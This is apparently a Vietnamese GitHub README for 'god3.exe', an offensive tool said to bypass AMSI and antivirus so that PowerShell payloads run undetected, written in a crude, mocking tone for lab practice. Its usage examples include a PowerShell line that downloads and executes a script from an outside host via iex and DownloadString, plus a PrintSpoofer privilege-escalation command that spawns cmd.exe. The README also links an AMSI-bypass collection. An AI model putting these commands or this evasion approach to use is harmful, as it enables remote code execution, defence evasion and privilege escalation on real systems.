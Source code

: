 # god-bo-tung

Bố Tùng viết cái này để bypass amsi, trigger powershell và bypass AV lên đến 99% cho các con cháu múa trong labs

Nói chung ngu thì upload xong chạy thử, không được thì RDP xong chạy


god3.exe <dường dẫn file payload>
Ex:
    god3.exe C:\User\Public\Desktop\payload.txt
    
    payload.txt: powershell -Sta -Nop -Command "iex (New-Object Net.WebClient).DownloadString('http://192.168.49.121/gg.sp1')"
    
    hoặc
    
    payload.txt: C:\User\Public\Desktop\PrintSpoofer64.exe -c "cmd.exe"
    
Có 2 trường hợp của tool:

- TH1(Dành cho trường hợp ko truyền đc param vào cmd hoặc ko muốn truyền) Nếu không nhập đường dẫn file payload.txt. Tool sẽ tự tìm file tên "godpay" trong cùng thư mục của file god3.exe rồi đọc paylaod trong file đấy

- TH1(Chỉ muốn bật powershell)Nếu không tồn tại file "godpay" thì tool chỉ bật powershell 

Kiểm tra kỹ năng óc chó khi không có bố Tùng: 
https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell

